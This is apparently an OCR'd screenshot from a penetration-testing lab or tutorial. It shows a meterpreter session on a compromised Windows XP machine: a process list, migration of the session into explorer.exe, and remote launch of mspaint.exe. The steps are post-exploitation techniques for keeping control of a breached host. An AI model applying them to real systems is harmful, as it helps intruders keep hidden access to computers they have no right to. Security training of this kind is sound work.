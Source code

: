     888   640   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVIC  C:\WINDOWS\system32\svchost.
                                                E                            exe
    984   640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\System32\svchost.
                                                                            exe
    1068  640   alg.exe           x86   0        NT AUTHORITY\LOCAL SERVICE   C:\WINDOWS\System32\alg.exe
    1080  640   svchost.exe       x86   0        NT AUTHORITY\NETWORK SERVIC  C:\WINDOWS\system32\svchost.
                                                E                            exe
    1184  640   svchost.exe       x86   0        NT AUTHORITY\LOCAL SERVICE   C:\WINDOWS\system32\svchost.
                                                                            exe
    1344  640   spoolsv.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\spoolsv.
                                                                            exe
    1504  640   svchost.exe       x86   0        NT AUTHORITY\SYSTEM          C:\WINDOWS\system32\svchost.
                                                                            exe
    1548  1604  cmd.exe           x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\cmd.exe
    1560  984   wscntfy.exe       x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\wscntfy.
                                                                            exe
    1604  1528  explorer.exe      x86   0        WORKGROU-8E8989\user         C:\WINDOWS\Explorer.EXE

    meterpreter > migrate 1604
    [*] Migrating from 984 to 1604...
    [*] Migration completed successfully.
    meterpreter > execute -f mspaint.exe
    Process 1752 created.

